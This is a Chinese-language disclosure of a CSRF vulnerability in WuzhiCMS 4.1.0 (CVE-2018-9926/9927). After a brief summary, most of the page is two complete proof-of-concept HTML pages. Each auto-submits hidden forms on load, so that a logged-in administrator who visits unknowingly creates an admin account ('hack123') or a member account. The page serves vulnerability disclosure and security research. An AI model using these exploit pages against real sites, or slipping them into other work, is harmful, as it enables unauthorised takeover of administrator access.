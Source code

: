 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|五指CMS-4.1.0存在CSRF漏洞可增加管理员账户|2018-04-10|套哥（taoge@5ecurity.cn）|[https://github.com/wuzhicms/wuzhicms](https://github.com/wuzhicms/wuzhicms) | [https://github.com/wuzhicms/wuzhicms](https://github.com/wuzhicms/wuzhicms) |4.1.0| [CVE-2018-9926](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9926)/[CVE-2018-9927](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9927)|  

#### 漏洞概述  

> 五指CMS 4.1.0版本存在一个CSRF漏洞，当管理员登陆后访问下面CSRF测试页面可将普通用户提成为管理员权限。五指CMS是一个在github上开源的CMS系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/wuzhicms/wuzhicms/issues/128)告知作者。   


### POC实现代码如下：  

> CSRF测试页面代码一如下：  

``` html
<html><body>
    <script type="text/javascript">
    function post(url,fields)
    {
    var p = document.createElement("form");
    p.action = url;
    p.innerHTML = fields;
    p.target = "_self";
    p.method = "post";
    document.body.appendChild(p);
    p.submit();
    }
    function csrf_hack()
    {
    var fields;
    
    fields += "<input type='hidden' name='form[role][]' value='1' />";
    fields += "<input type='hidden' name='form[username]' value='hack123' />"; 
    fields += "<input type='hidden' name='form[password]' value='' />"; 
    fields += "<input type='hidden' name='form[truename]' value='taoge@5ecurity' />"; 
    
    var url = "http://127.0.0.1/www/index.php?m=core&f=power&v=add&&_su=wuzhicms&_menuid=61&_submenuid=62&submit=提交";
    post(url,fields);
    }
    window.onload = function() { csrf_hack();}
    </script>
    </body></html>
```

> CSRF测试页面代码二如下：  

``` html
<html><body>
<script type="text/javascript">
function post(url,fields)
{
var p = document.createElement("form");
p.action = url;
p.innerHTML = fields;
p.target = "_self";
p.method = "post";
document.body.appendChild(p);
p.submit();
}
function csrf_hack()
{
var fields;

fields += "<input type='hidden' name='info[username]' value='hack123' />";
fields += "<input type='hidden' name='info[password]' value='hacktest' />"; 
fields += "<input type='hidden' name='info[pwdconfirm]' value='hacktest' />"; 
fields += "<input type='hidden' name='info[email]' value='taoge@5ecurity.cn' />"; 
fields += "<input type='hidden' name='info[mobile]' value='' />"; 
fields += "<input type='hidden' name='modelids[]' value='10' />"; 
fields += "<input type='hidden' name='info[groupid]' value='3' />"; 
fields += "<input type='hidden' name='pids[]' value='0' />"; 
fields += "<input type='hidden' name='pids[]' value='0' />"; 
fields += "<input type='hidden' name='pids[]' value='0' />";
fields += "<input type='hidden' name='pids[]' value='0' />"; 
fields += "<input type='hidden' name='avatar' value='' />"; 
fields += "<input type='hidden' name='islock' value='0' />";
fields += "<input type='hidden' name='sys_name' value='0' />";
fields += "<input type='hidden' name='info[birthday]' value='' />"; 
fields += "<input type='hidden' name='info[truename]' value='' />"; 
fields += "<input type='hidden' name='info[sex]' value='0' />";
fields += "<input type='hidden' name='info[marriage]' value='0' />";

var url = "http://127.0.0.1/www/index.php?m=member&f=index&v=add&_su=wuzhicms&_menuid=30&_submenuid=74&submit=提交";
post(url,fields);
}
window.onload = function() { csrf_hack();}
</script>
</body></html>
```